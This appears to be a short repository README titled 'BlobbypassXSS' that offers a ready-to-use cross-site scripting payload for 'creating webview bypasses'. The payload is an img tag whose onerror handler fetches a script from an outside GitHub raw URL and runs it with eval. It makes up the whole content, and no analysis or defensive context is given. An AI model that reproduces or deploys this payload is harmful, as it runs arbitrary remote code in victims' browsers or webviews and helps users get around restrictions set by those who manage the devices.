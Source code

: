 # BlobbypassXSS
## A little bit of XSS that can be used for creating webview bypasses
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/blobbypass.js").then(r=>r.text()).then(c=>eval(c)) '>
```
